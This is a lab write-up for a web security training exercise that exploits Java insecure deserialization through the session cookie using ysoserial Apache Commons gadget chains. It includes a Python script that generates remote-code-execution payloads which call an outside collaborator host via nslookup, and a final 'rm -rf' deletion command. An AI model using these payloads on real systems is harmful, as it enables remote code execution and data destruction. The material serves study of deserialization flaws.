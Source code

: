 This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

# Vuln assessment

The lab gives a hint about the use of apache commons library. Next find where serialization is used:

![[burp-warning.png]]

The `session` cookie seems to be the injection point for serialized objects.
 
Now list the available payloads in `ysoserial`:

![[gadgets.png]]

There are 8 gadgets, now the question is which one will work?

I wrote a python script that generates the payload for all the available gadgets to perform a DNS query to the collaborator, then load them into a in Intruder attack:

```python
import os

gadgets = ["CommonsBeanutils1","CommonsCollections1","CommonsCollections2",
"CommonsCollections3",
"CommonsCollections4",
"CommonsCollections5","CommonsCollections6",
"CommonsCollections7"]

for gadget in gadgets:
	os.system("java -jar ~/tools/ysoserial-all.jar "+ gadget + " 'nslookup vfe3b0nca4h59vcj9te13qb4hvnmbcz1.oastify.com' | base64 -w0 >> ser.txt")
	os.system('echo "\r" >> ser.txt')
```

All the payloads are stored in the `ser.txt` file. Now execute the intruder attack into the `session` cookie input URL encoding each payload.

The DNS interaction is received

# Exploitation

Figura out which gadget worked and use it with `ysoserial` executing the `rm -rf /home/carlos/morale.txt` command





